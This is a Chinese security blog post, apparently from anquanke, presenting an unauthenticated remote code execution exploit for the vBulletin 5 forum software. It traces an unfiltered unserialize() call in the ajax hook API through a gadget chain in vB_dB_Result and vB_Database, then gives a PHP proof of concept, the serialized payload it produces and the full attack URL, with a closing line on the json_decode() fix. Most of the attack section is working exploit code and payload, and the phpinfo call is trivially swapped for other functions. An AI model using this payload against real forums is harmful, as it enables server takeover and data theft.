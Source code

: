 > 原文链接: https://www.anquanke.com//post/id/82861 


# vBulletin 5 远程命令执行（无需登录）#exp


                                阅读量   
                                **90035**
                            
                        |
                        
                                                                                    



[![](https://p5.ssl.qhimg.com/t0110ae410c8bef1224.jpg)](https://p5.ssl.qhimg.com/t0110ae410c8bef1224.jpg)

**vBulletin 是一个强大,灵活并可完全根据自己的需要定制的论坛程序套件。它使用目前发展速度最快的 Web 脚本语言编写: PHP,并且基于以高效和疾速著称的数据库引擎 MySQL。**

****

vBulletin 是世界上用户非常广泛的PHP论坛,很多大型论坛都选择vBulletin作为自己的社区。vBulletin高效,稳定,安全,在中国也有很多大型客户,比如蜂鸟网,51团购,海洋部落等在线上万人的论坛都用vBulletin。

vBulletin的官方网站是 [http://www.vBulletin.com](http://www.vBulletin.com) 它不是免费软件,但价格很低。

一个叫Coldzer0的家伙在[http://0day.today](http://0day.today) 贩卖vBulletin的RCE,并且在youtube上给出了视频演示,视频中他GOOGLE dork了几个vBulletin论坛,进行利用。最后要说的是vBulletin主论坛也在周一(11/02/15)的时候被搞了。

vBulletin在/core/vb/api/实现ajax API调用,首先看看hook.php

```
public function decodeArguments($arguments)
         `{`
                  if ($args = @unserialize($arguments))
                  `{`
                          $result = '';
                          foreach ($args AS $varname =&gt; $value)
                          `{`
                                   $result .= $varname;
```

显然unserialize没有经过任何过滤就进来了,我来找找他是在哪里调用的。在 /core/vb/db/result.php的vB_dB_Result类实现了一个迭代器



```
`{`
...
         public function rewind()
         `{`
                  //no need to rerun the query if we are at the beginning of the recordset.
                  if ($this-&gt;bof)
                  `{`
                          return;
                  `}`
                  if ($this-&gt;recordset)
                  `{`
                          $this-&gt;db-&gt;free_result($this-&gt;recordset);
                  `}`
```

rewind()函数是在通过foreach()进行迭代器访问时被调用,接着来看看 /core/vb/database.php里的vB_Database抽象类中free_result()函数



```
`{`
...    
         function free_result($queryresult)
         `{`
                  $this-&gt;sql = '';
                  return @$this-&gt;functions['free_result']($queryresult);
         `}`
```

这就形成了RCE

poc如下:



```
$ php &lt;&lt; 'eof'
&lt;?php
class vB_Database `{`
       public $functions = array();
       public function __construct()
       `{`
               $this-&gt;functions['free_result'] = 'phpinfo';
       `}`
`}`
class vB_dB_Result `{`
       protected $db;
       protected $recordset;
       public function __construct()
       `{`
               $this-&gt;db = new vB_Database();
               $this-&gt;recordset = 1;
       `}`
`}`
print urlencode(serialize(new vB_dB_Result())) . "n";
eof
```

上面代码运行后返回

O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A11%3A%22vB_Database%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A7%3A%22phpinfo%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bi%3A1%3B%7D

然后针对目标请求

[http://localhost/vbforum/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2a%00db%22%3BO%3A11%3A%22vB_Database%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A7%3A%22phpinfo%22%3B%7D%7Ds%3A12%3A%22%00%2a%00recordset%22%3Bi%3A1%3B%7D](http://localhost/vbforum/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2a%00db%22%3BO%3A11%3A%22vB_Database%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A7%3A%22phpinfo%22%3B%7D%7Ds%3A12%3A%22%00%2a%00recordset%22%3Bi%3A1%3B%7D)

就可以看到phpinfo()信息了

[![](https://p0.ssl.qhimg.com/t01f2f4e1bef5451325.jpg)](https://p0.ssl.qhimg.com/t01f2f4e1bef5451325.jpg)

**修复方式是使用json_decode()来替代unserialize(),不过话说这个漏洞地下流传已经超过3年了**
